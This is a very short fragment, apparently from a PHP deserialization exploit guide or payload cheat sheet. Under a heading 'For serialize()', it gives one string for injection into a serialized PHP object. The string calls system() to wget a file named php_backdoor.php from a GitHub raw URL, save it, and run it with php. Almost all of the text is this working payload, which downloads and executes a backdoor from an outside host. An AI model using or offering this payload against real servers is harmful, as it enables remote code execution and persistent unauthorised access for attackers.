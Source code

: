 ### For serialize() 

```PHP
"system('wget https://raw.githubusercontent.com/Zilborg/payload/master/php_backdoor.php -O phpobjbackdoor.php && php phpobjbackdoor.php');"
```
